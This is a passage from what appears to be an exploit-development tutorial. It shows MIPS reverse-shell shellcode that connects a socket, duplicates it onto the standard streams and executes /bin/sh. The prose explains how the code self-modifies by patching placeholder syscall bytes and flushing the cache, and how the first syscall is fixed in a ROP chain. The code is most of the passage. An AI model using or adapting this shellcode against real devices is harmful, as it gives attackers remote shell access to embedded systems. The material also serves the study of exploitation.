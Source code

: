 ```
	addiu $a1, $sp, -300
	xori $a2, $s6, 0x3121
	xori $v0, $s6, 0x217B
connect_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE
	
	# dup2(socket_descriptor, STDIN)
	addiu $a0, $fp, 0x2121
	xori $a1, $s6, 0x3131
	xori $v0, $s6, 0x3EEE
dup2_stdin_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE

	# dup2(socket_descriptor, STDOUT)
	addiu $a0, $fp, 0x2121
	xori $a1, $s6, 0x3130
	xori $v0, $s6, 0x3EEE
dup2_stdout_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE

	# dup2(socket_descriptor, STDERR)
	addiu $a0, $fp, 0x2121
	xori $a1, $s6, 0x3133
	xori $v0, $s6, 0x3EEE
dup2_stderr_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE

	# execv
	addiu $t0, $s7, 0x622f
	sw $t0, -300($sp)
	addiu $t0, $s7, 0x6e69
	sw $t0, -298($sp)

	addiu $t0, $s7, 0x732f
	sw $t0, -296($sp)
	xori $t0, $s6, 0x3159
	sw $t0, -294($sp)

	addiu $a0, $sp, -300
	sw $a0, -288($sp)
	sw $zero, -292($sp)

	addiu $a1, $sp, -288
	xori $a2, $s6, 0x3131
	xori $v0, $s6, 0x3e9a
execve_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE
```

Every `syscall`, with the exception of the first, has been replaced with placeholder bytes of 0xFEFEFEFE and a block of store word operations added to overwrite them with `syscall` on execution. Following the block of store words there is a call to cacheflush on the address of our shellcode. This is what enables us to self modify and execute. The only piece remaining is fixing up the first, and arguably most important, syscall. It can't be fixed after we jump to our shellcode because there is nothing to flush it's main memory at that point. Our only option is to modify it in our ROP chain prior to calling sleep.
